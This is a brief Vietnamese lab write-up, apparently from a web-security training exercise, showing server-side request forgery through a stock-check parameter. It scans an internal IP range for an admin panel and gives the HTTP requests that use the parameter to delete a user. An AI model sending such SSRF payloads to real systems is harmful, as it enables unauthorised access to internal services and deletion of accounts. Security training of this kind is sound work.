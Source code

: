 Trong lab này request này sẽ tương tác với một hệ thống back-end với địa chỉ là 192.168.0.1:8080 để yêu cầu stock check. 

Tiến hành thay đổi URL để chỉ định đến trang admin với định dạng `http://192.168.0.x:8080/admin` với x sẽ là một ip từ `1-255`. Tiến hành dò x thì ta sẽ có `x=18` và ta có được request như sau:

```http
POST /product/stock HTTP/2
Content-Length: 96
Content-Type: application/x-www-form-urlencoded
stockApi=http%3A%2F%2F192.168.0.18%3A8080%2Fadmin
```

Thay đổi request để có thể xóa `user=carlos` từ loopback

```http
POST /product/stock HTTP/2
Content-Length: 96
Content-Type: application/x-www-form-urlencoded
stockApi=http%3A%2F%2F192.168.0.18%3A8080%2Fadmin%2Fdelete?username=carlos
```